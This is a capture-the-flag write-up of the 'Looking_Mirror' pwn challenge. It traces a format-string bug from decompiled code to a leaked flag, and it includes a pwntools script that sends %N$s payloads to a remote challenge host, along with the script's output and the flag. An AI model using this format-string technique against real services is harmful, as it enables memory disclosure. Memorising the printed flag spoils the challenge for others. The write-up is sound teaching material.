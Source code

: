 # Looking_Mirror

**Description**:  
Welcome brave adventurer, gaze into the immortal mirror and best it with your queries. Let it spill the much guarded secret to a masterful conquest!

**Author:  [Ath3n1x](https://twitter.com/Ath3n1x)**

**Solution**: 
As usual, lets start with checking the permissions with `checksec`:
```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
Everything else enabled, except for canary. 

Now lets try running the binary:
```
Ask the looking mirror for the secret to a masterful conquest!
==============================================
Hi, you are face to face with the immortal mirror now!
Delve into its eternal wisdom and get the much gaurded secret.
Remember! it shall delight you with a reply, only if you are truly worthy. Otherwise it will echo your queries back to you.



> hi
Looking Mirror: hi

> I am Ath3n1x
Looking Mirror: I am Ath3n1x

> 
```
As the description says, it just spits out the input.

Now we will move on the examining the source code in ida/ghidra:
```
  do {
    printf("\n> ");
    fgets(local_98,0x40,stdin);
    printf("Looking Mirror: ");
    printf(local_98);
  } while( true );
```
Bingo, here is the culprit! Look at the printf statement `printf(local_98);`, a small friend called format specifier is missing leading to format string vulnerability.

Now that we found the vulnerability, lets again try running the binary and try to leak some stuff from stack.

```
> %p %p %p %p
Looking Mirror: 0x7ffd11b09970 (nil) (nil) 0x63605f4c248c

> %s %s %s %s %s
Looking Mirror: Looking Mirror: nil) (nil) 0x63605f4c248c
 (null) (null) 4t5_b4by_f0rm4773r}
 (null)
```
Woah, we got something. Now, lets prepare our exploit. I had a fuzzing script ready, so I used that for this challenge since we can directly leak the flag.

**Exploit:**
```python
from pwn import *

#elf = context.binary = ELF('./looking_mirror', checksec=False)

for i in range(100):
    try:
        #p = process(level='error')
        p = remote("13.234.11.113", 31481)
        p.sendlineafter(b'> ', '%{}$s'.format(i).encode())
        result = p.recvuntil(b'> ')
        print(str(i) + ': ' + str(result))
        p.close()
    except EOFError:
        pass
```

On running the script:
```
0: b'Looking Mirror: %0$s\n\n> '
1: b'Looking Mirror: Looking Mirror: \xe8\x03\n\n> '
2: b'Looking Mirror: (null)\n\n> '
3: b'Looking Mirror: (null)\n\n> '
4: b'Looking Mirror: iCTF{c0ngr4t5_b4by_f0rm4773r}\n\n\n> '
5: b'Looking Mirror: (null)\n\n> '
6: b'Looking Mirror: u\x91d*\xfc\x7f\n\n> '
8: b'Looking Mirror: (null)\n\n> '
10: b'Looking Mirror: shaktiCTF{c0ngr4t5_b4by_f0rm4773r}\n\n\n> '
```

:tada::tada::tada:

Flag: `shaktiCTF{c0ngr4t5_b4by_f0rm4773r}`              

